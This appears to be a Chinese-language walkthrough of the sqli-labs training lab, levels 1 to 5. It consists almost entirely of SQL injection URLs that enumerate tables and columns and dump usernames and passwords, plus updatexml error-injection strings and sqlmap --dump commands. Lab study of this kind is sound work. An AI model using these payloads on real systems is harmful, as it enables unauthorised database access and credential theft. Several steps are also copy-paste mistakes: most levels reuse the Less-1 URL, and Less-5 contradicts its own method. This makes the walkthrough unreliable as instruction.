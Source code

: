 # sqli-labs 通关笔记

# 基础篇

### Less-1



| 请求方式 | 注入方式 | 注入位置 | 参数构造            |
| -------- | -------- | -------- | ------------------- |
| GET      | 报错回注 | url      | ?id=1' 注入语句 --+ |

```
1. 确定参数构造方式
http://192.168.1.200:9080/Less-1/?id=1'\

2. 判断注入点
http://192.168.1.200:9080/Less-1/?id=1' and 1=1 --+
http://192.168.1.200:9080/Less-1/?id=1' and 1=2 --+

3. 确定字段数量
http://192.168.1.200:9080/Less-1/?id=1' order by 3 --+
http://192.168.1.200:9080/Less-1/?id=1' order by 4 --+

4. 判断数据显示点
http://192.168.1.200:9080/Less-1/?id=-1' union select 1,2,3  --+

5. 查询数据库名字和版本信息以及所有的表名
http://192.168.1.200:9080/Less-1/?id=-1' union select 1,group_concat(version(), '---',database()),group_concat(table_name) from information_schema.tables where table_schema=database()  --+

6. 查询 users 表的所有字段名
http://192.168.1.200:9080/Less-1/?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'  --+

7. 获得 users 表的所有记录
http://192.168.1.200:9080/Less-1/?id=-1' union select 1,group_concat(username),group_concat(password) from users  --+
```

#### Less-2

| 请求方式 | 注入方式 | 注入位置 | 参数构造           |
| -------- | -------- | -------- | ------------------ |
| GET      | 报错回注 | url      | ?id=1 注入语句 --+ |

```
1. 确定参数构造方式
http://192.168.1.200:9080/Less-1/?id=1'\

2. 判断注入点
http://192.168.1.200:9080/Less-1/?id=1 and 1=1 --+
http://192.168.1.200:9080/Less-1/?id=1 and 1=2 --+

3. 确定字段数量
http://192.168.1.200:9080/Less-1/?id=1 order by 3 --+
http://192.168.1.200:9080/Less-1/?id=1 order by 4 --+

4. 判断数据显示点
http://192.168.1.200:9080/Less-1/?id=-1 union select 1,2,3  --+

5. 查询数据库名字和版本信息以及所有的表名
http://192.168.1.200:9080/Less-1/?id=-1 union select 1,group_concat(version(), '---',database()),group_concat(table_name) from information_schema.tables where table_schema=database()  --+

6. 查询 users 表的所有字段名
http://192.168.1.200:9080/Less-1/?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'  --+

7. 获得 users 表的所有记录
http://192.168.1.200:9080/Less-1/?id=-1 union select 1,group_concat(username),group_concat(password) from users  --+
```

### Less-3



| 请求方式 | 注入方式 | 注入位置 | 参数构造             |
| -------- | -------- | -------- | -------------------- |
| GET      | 报错回注 | url      | ?id=1‘) 注入语句 --+ |

```
1. 确定参数构造方式
http://192.168.1.200:9080/Less-1/?id=1'\

2. 判断注入点
http://192.168.1.200:9080/Less-1/?id=1') and 1=1 --+
http://192.168.1.200:9080/Less-1/?id=1') and 1=2 --+

3. 确定字段数量
http://192.168.1.200:9080/Less-1/?id=1') order by 3 --+
http://192.168.1.200:9080/Less-1/?id=1 order by 4 --+

4. 判断数据显示点
http://192.168.1.200:9080/Less-1/?id=-1') union select 1,2,3  --+

5. 查询数据库名字和版本信息以及所有的表名
http://192.168.1.200:9080/Less-1/?id=-1') union select 1,group_concat(version(), '---',database()),group_concat(table_name) from information_schema.tables where table_schema=database()  --+

6. 查询 users 表的所有字段名
http://192.168.1.200:9080/Less-1/?id=-1') union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'  --+

7. 获得 users 表的所有记录
http://192.168.1.200:9080/Less-1/?id=-1') union select 1,group_concat(username),group_concat(password) from users  --+
```

### Less-4

| 请求方式 | 注入方式 | 注入位置 | 参数构造             |
| -------- | -------- | -------- | -------------------- |
| GET      | 报错回注 | url      | ?id=1") 注入语句 --+ |

```
1. 确定参数构造方式
http://192.168.1.200:9080/Less-1/?id=1'\

2. 判断注入点
http://192.168.1.200:9080/Less-1/?id=1") and 1=1 --+
http://192.168.1.200:9080/Less-1/?id=1") and 1=2 --+

3. 确定字段数量
http://192.168.1.200:9080/Less-1/?id=1") order by 3 --+
http://192.168.1.200:9080/Less-1/?id=1") order by 4 --+

4. 判断数据显示点
http://192.168.1.200:9080/Less-1/?id=-1") union select 1,2,3  --+

5. 查询数据库名字和版本信息以及所有的表名
http://192.168.1.200:9080/Less-1/?id=-1") union select 1,group_concat(version(), '---',database()),group_concat(table_name) from information_schema.tables where table_schema=database()  --+

6. 查询 users 表的所有字段名
http://192.168.1.200:9080/Less-1/?id=-1") union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'  --+

7. 获得 users 表的所有记录
http://192.168.1.200:9080/Less-1/?id=-1") union select 1,group_concat(username),group_concat(password) from users  --+
```

### sqlmap

```
1. 查询所有数据库
sqlmap -u "http://192.168.1.200:9080/Less-4/?id=1" --batch --dbs

2. 查询所有表
sqlmap -u "http://192.168.1.200:9080/Less-4/?id=1" --batch -D security --tables

3. 查询所有列名
sqlmap -u "http://192.168.1.200:9080/Less-4/?id=1" --batch -D security -T users --columns

4. 查询所有记录
sqlmap -u "http://192.168.1.200:9080/Less-4/?id=1" --batch -D security -T users -C "username,password" --dump
```

### Less-5

| 请求方式 | 注入方式 | 注入位置 | 参数构造             |
| -------- | -------- | -------- | -------------------- |
| GET      | 报错回注 | url      | ?id=1") 注入语句 --+ |

```
1. 确定参数构造方式
http://192.168.1.200:9080/Less-5/?id=1\

2. 判断注入点
http://192.168.1.200:9080/Less-5/?id=1' and 1=1 --+
http://192.168.1.200:9080/Less-5/?id=1' and 1=2 --+

3. 确定字段数量
http://192.168.1.200:9080/Less-5/?id=1' order by 3 --+
http://192.168.1.200:9080/Less-5/?id=1' order by 4 --+

5. 查询数据库名字和版本信息以及所有的表名
http://192.168.1.200:9080/Less-5/?id=1' and updatexml(1,concat(0x7e,(SELECT database()), (select @@version),0x7e),1) -- +
http://192.168.1.200:9080/Less-5/?id=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()), 0x7e),1) -- +

6. 查询 users 表的所有字段名
http://192.168.1.200:9080/Less-5/?id=1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'), 0x7e),1) -- +

7. 获得 users 表的所有记录
http://192.168.1.200:9080/Less-1/?id=-1") union select 1,group_concat(username),group_concat(password) from users  --+
```

